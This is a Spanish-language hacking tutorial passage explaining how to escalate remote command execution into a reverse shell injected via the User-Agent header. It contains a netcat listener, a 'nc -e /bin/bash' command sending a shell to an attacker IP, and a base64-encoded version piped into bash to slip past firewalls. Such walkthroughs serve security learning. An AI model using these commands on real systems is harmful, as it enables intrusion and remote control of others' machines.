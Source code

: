 <br>

## Obteniendo una reverse shell usando el RCE 

Ahora que ya tenemos ejecución remota de comandos nos queda generar una reverse shell para un manejo mas controlado del sistema comprometido.

Para esto usaremos una reverse shell que inyectaremos en el User Agent.

Para hacer una conexión con netcat podemos hacer lo siguiente:

Primero pondremos en escucha el puerto por el cuál recibiremos la reverse shell:

`sudo nc -nlvp 443`

En este caso pusimos en escucha el puerto 443:

![image](/assets/images/Hacking/RCE/nc.png)

Y ahora con esta instrucción de bash podemos enviar una shell a la IP nuestra por medio del pueto 443:

`nc -e /bin/bash 192.168.1.71 443`

Pero se recomienda no enviarlo así directamente ya que podría haber algun firewall o algo que evite usar comandos como netcat, por eso podemos codificarlo en base 64:

![image](/assets/images/Hacking/RCE/encode.png)

Y nos da la siguiente string: bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MSA0NDMK.

Ahora lo que haremos será enviarla codificada pero también que se decodifique y que esto se ejecute con bash:

`echo "bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MSA0NDMK" | base64 -d | bash`

Con el parametro -d de base64 indicamos que el texto que se le pasa lo decodifique y que posteriormente ejecute eso con bash.
